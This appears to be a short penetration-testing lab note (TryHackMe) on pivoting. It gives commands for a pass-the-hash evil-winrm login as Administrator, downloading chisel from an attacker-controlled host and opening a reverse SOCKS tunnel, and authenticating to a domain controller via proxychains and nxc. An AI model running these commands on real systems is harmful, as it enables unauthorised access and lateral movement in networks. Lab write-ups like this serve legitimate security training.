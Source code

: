 # Pivoting

## Access to the Pivot Machine as Admin

{% code overflow="wrap" %}
```bash
evil-winrm -i wrk.tryhackme.loc -u 'Administrator' -H 'e75f25c6788a558e4f3f49714ed95e41'
```
{% endcode %}



## Chisel pivoting setup

### Set Proxy in attacker machine

{% code overflow="wrap" %}
```bash
chisel server --port 8000 -reverse
```
{% endcode %}



### Start Agent in pivot machine

Download the agent from malicious server

```
curl http://10.250.1.6/chisel_1.10.1_windows_amd64 -o chisel.exe

.\chisel.exe client 10.250.1.6:8000 R:socks
```



Try to authenticate to DC.

```bash
proxychains nxc smb 10.200.150.10 -u "gg" -p 'ii'
```

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

The pivot works.
